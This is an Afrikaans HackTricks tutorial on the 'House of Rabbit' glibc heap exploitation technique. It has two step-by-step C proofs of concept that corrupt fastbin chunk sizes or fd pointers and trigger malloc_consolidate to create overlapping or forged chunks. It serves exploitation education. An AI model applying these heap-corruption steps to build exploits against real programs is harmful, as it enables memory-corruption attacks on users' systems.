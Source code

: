 # Huis van die Haas

{% hint style="success" %}
Leer & oefen AWS-hacking: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP-hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking-truuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

### Vereistes

1. **Vermoeë om vinnige bin fd-aanwyser of grootte te wysig**: Dit beteken jy kan die voorwaartse aanwyser van 'n blok in die vinnige bin verander of sy grootte.
2. **Vermoeë om `malloc_consolidate` te aktiveer**: Dit kan gedoen word deur óf 'n groot blok toe te ken óf die boonste blok saam te voeg, wat die hoop dwing om blokke te konsolideer.

### Doelwitte

1. **Skep oorvleuelende blokke**: Om een blok met 'n ander te laat oorvleuel, wat verdere hoopmanipulasies moontlik maak.
2. **Vals blokke vervals**: Om die toewysers te mislei om 'n vals blok as 'n regmatige blok tydens hoopoperasies te hanteer.

## Stappe van die aanval

### POC 1: Wysig die grootte van 'n vinnige bin-blok

**Doel**: Skep 'n oorvleuelende blok deur die grootte van 'n vinnige bin-blok te manipuleer.

* **Stap 1: Ken Blokke Toe**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
* **Stap 2: Vrygemaakte brokke**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
### Ons maak albei brokke vry, en voeg hulle by die fastbin-lys.

* **Stap 3: Wysig Brok Grootte**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
### Ons verander die grootte metadata van `chunk1` na 0xa1. Dit is 'n noodsaaklike stap om die toewysingsprogram tydens konsolidasie te mislei.

* **Stap 4: Trigger `malloc_consolidate`**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
### POC 2: Wysig die `fd` wyser

**Doel**: Skep 'n vals blokkie deur die vinnige bin `fd` wyser te manipuleer.

* **Stap 1: Allokeer Blokkies**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**Verduideliking**: Ons ken twee stukke toe, een kleiner en een groter, om die heap op te stel vir die vals stuk.

* **Stap 2: Skep vals stuk**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
* **Stap 3: Vry `chunk1`**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**Verduideliking**: Ons vry `chunk1`, deur dit by die fastbin-lys te voeg.

* **Stap 4: Wysig `fd` van `chunk1`**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**Verduideliking**: Ons verander die voorwaartse aanwyser (`fd`) van `chunk1` om te wys na ons valse stuk binne `chunk2`.

* **Stap 5: Trigger `malloc_consolidate`**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
Die toewysing van 'n groot blok veroorsaak weer `malloc_consolidate`, wat die valse blok verwerk.

Die valse blok word deel van die fastbin-lys, wat dit 'n legitieme blok maak vir verdere uitbuiting.

### Opsomming

Die **House of Rabbit** tegniek behels óf die wysiging van die grootte van 'n fast bin blok om oorvleulende blokke te skep, óf die manipulasie van die `fd` wyser om valse blokke te skep. Dit stel aanvallers in staat om legitieme blokke in die heap te vervals, wat verskeie vorme van uitbuiting moontlik maak. Die begrip en oefening van hierdie stappe sal jou heap-uitbuitingsvaardighede verbeter.

